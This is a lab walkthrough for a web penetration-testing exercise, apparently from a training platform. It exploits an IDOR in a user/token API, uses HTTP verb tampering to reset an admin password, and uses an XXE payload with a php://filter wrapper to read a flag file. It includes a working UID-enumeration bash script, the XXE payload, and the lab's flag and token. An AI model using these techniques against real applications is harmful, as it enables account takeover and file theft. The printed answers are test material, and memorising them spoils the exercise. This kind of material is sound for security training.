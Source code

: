 ﻿## Scenario

You are performing a web application penetration test for a software development company, and they task you with testing the latest build of their social networking web application. Try to utilize the various techniques you learned in this module to identify and exploit multiple vulnerabilities found in the web application.

The login details are provided in the question below.

![Pasted image 20250217220316.png](../../../IMAGES/Pasted%20image%2020250217220316.png)

Let's visit the web application:

![Pasted image 20250217220549.png](../../../IMAGES/Pasted%20image%2020250217220549.png)

We can authenticate now:

![Pasted image 20250217220617.png](../../../IMAGES/Pasted%20image%2020250217220617.png)
## Identifying IDOR
---

We get sent to this dashboard, we can see settings, messages, invites, events, account settings and statistics, if we go to `settings`, we can see this:

![Pasted image 20250217220735.png](../../../IMAGES/Pasted%20image%2020250217220735.png)

We can change our password here, let's try sending a request to burp to analyze it:

![Pasted image 20250217221231.png](../../../IMAGES/Pasted%20image%2020250217221231.png)

We get an api call to `token/74`, also, we are assigned a cookie and an `uid`, in this case, we are assigned with `uid=74`, viewing the structure of the api call, we can see that the uid is strictly related to the token, let's try changing it to another uid to check the behavior:

![Pasted image 20250217221356.png](../../../IMAGES/Pasted%20image%2020250217221356.png)

For example, if we change it to 1, we get that token, that token is necessary for the following:

![Pasted image 20250217221433.png](../../../IMAGES/Pasted%20image%2020250217221433.png)

We can see that the `reset.php` function needs the token to function, since we can enumerate the tokens for other uids rather than ours, but, how do we even know which one is meant for admin user since we can only know tokens, that's when we need to go to our `HTTP History`, in there, we can check another `GET` request being made to `/api.php/user/`:


![Pasted image 20250217222105.png](../../../IMAGES/Pasted%20image%2020250217222105.png)

Since this behaves exactly like the token request, we can change the uid and token call to check other users, for example, with number 1:

![Pasted image 20250217222149.png](../../../IMAGES/Pasted%20image%2020250217222149.png)

## Enumerating Admin User
Now, it's time to automatize the uid search, let's begin with this bash script to enumerate users and view the uid of the admin user:

```bash
#!/bin/bash

# Target URL
TARGET="http://IP:PORT/api.php/user/"

# User-Agent
USER_AGENT="Mozilla/5.0 (X11; Linux x86_64; rv:131.0) Gecko/20100101 Firefox/131.0"

# Output file
OUTPUT_FILE="idor_results.txt"

# Clear previous results
> "$OUTPUT_FILE"

# Colored output
GREEN="\e[32m"
RED="\e[31m"
YELLOW="\e[33m"
RESET="\e[0m"

# Loop through user IDs
for uid in {1..100}; do
 RESPONSE=$(curl -s "$TARGET$uid" -H "User-Agent: $USER_AGENT")
 
 if echo "$RESPONSE" | grep -iq "admin"; then
 echo -e "${GREEN}[+] Admin Found! UID: $uid${RESET}"
 echo "$RESPONSE" | tee -a "$OUTPUT_FILE"
 fi

done

echo -e "${GREEN}[+] Enumeration complete. Results saved to $OUTPUT_FILE${RESET}"

```

After a bit, we get the following:

```bash
[+] Admin Found! UID: 52

{"uid":"52","username":"a.corrales","full_name":"Amor Corrales","company":"Administrator"}
```

We found the right uid, let's visualize the token:

![Pasted image 20250217230027.png](../../../IMAGES/Pasted%20image%2020250217230027.png)

Our admin token is:

```
{"token":"e51a85fa-17ac-11ec-8e51-e78234eb7b0c"}
```

If we try to reset the password, this happens:

![Pasted image 20250217230135.png](../../../IMAGES/Pasted%20image%2020250217230135.png)

We're getting `Access Denied`, we can bypass this restriction with `HTTP Verb Tampering`.

## HTTP Verb Tampering
---

To begin with, change the request to `PUT`:

![Pasted image 20250217230238.png](../../../IMAGES/Pasted%20image%2020250217230238.png)

Now we get something different, let's adjust the parameters:

![Pasted image 20250217230311.png](../../../IMAGES/Pasted%20image%2020250217230311.png)

And now we were able to successfully change the password using `PUT` verb, we can now log as the admin user:

```ad-note
`a.corrales`:`test`
```

![Pasted image 20250217230426.png](../../../IMAGES/Pasted%20image%2020250217230426.png)

## Identifying Admin Functionalities
----

Nice, we are now inside the admin panel and we got a new functionality: `Add Event`, let's check the request for this:

![Pasted image 20250217230553.png](../../../IMAGES/Pasted%20image%2020250217230553.png)

Let's create a simple test event:

![Pasted image 20250217230641.png](../../../IMAGES/Pasted%20image%2020250217230641.png)

Now, check the request:

![Pasted image 20250217230722.png](../../../IMAGES/Pasted%20image%2020250217230722.png)

We have a XML form, if we send the request, this is the response we're given:

![Pasted image 20250217230757.png](../../../IMAGES/Pasted%20image%2020250217230757.png)

It seems like the `name` property gets injected directly to the response, let's change it to something else and check:

![Pasted image 20250217230848.png](../../../IMAGES/Pasted%20image%2020250217230848.png)

If we inject `whoami`, we can see it indeed goes through, we do not get the output of the command but it helps us understand that it gets reflected in the response:

![Pasted image 20250217231014.png](../../../IMAGES/Pasted%20image%2020250217231014.png)

Now, knowing this, we can try exploiting XXE.

## Exploiting XXE
---

We can read the contents of our flag using the following payload:

```xml
<!DOCTYPE name [

 <!ENTITY xxe SYSTEM "php://filter/convert.base64-encode/resource=/flag.php">

]>
 <root>
 <name>&xxe;</name>
 <details>1</details>
 <date>0001-11-11</date>
 </root>
```

In this case, since we know the `name` is vulnerable, we can define an entity and then use it, this displays the following:

```
HTTP/1.1 200 OK

Date: Tue, 18 Feb 2025 04:41:32 GMT

Server: Apache/2.4.41 (Ubuntu)

Expires: Thu, 19 Nov 1981 08:52:00 GMT

Cache-Control: no-store, no-cache, must-revalidate

Pragma: no-cache

Vary: Accept-Encoding

Content-Length: 86

Keep-Alive: timeout=5, max=100

Connection: Keep-Alive

Content-Type: text/html; charset=UTF-8



Event 'PD9waHAgJGZsYWcgPSAiSFRCe200NTczcl93M2JfNDc3NGNrM3J9IjsgPz4K' has been created.
```

We got the flag in base64, we can even use burp's decoder to quickly decode that:

![Pasted image 20250217234359.png](../../../IMAGES/Pasted%20image%2020250217234359.png)

That outputs:

```
<?php $flag = "HTB{m4573r_w3b_4774ck3r}"; ?>
```

Flag is: 

```
HTB{m4573r_w3b_4774ck3r}
```

![Pasted image 20250217234432.png](../../../IMAGES/Pasted%20image%2020250217234432.png)

